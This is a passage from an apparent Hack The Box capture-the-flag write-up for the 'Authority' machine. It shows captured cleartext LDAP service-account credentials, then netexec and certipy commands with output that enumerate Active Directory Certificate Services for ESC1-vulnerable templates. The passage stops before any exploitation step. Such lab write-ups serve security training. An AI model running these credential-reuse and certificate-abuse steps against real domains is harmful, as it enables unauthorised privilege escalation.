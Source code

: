 and bammm!!!!!

![alt text](../assets/images/authority8.png)

```bash
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[*] Skipping previously captured cleartext password for CN=,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
```

OKEY nice!!!! lets check AD users first.

![alt text](../assets/images/authority9.png)

There is only 1 user??? so its probably about ADCS im %100 suer lets check.

## ESC1 on Domain Computers

```bash
➜  authority nxc ldap AUTHORITY.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M adcs
LDAP        10.10.11.222    389    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 (name:AUTHORITY) (domain:authority.htb)
LDAP        10.10.11.222    389    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
ADCS        10.10.11.222    389    AUTHORITY        [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.222    389    AUTHORITY        Found PKI Enrollment Server: authority.authority.htb
ADCS        10.10.11.222    389    AUTHORITY        Found CN: AUTHORITY-CA
```

and yeah off course.

```bash
➜  authority certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable -dc-ip 10.10.11.222
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
```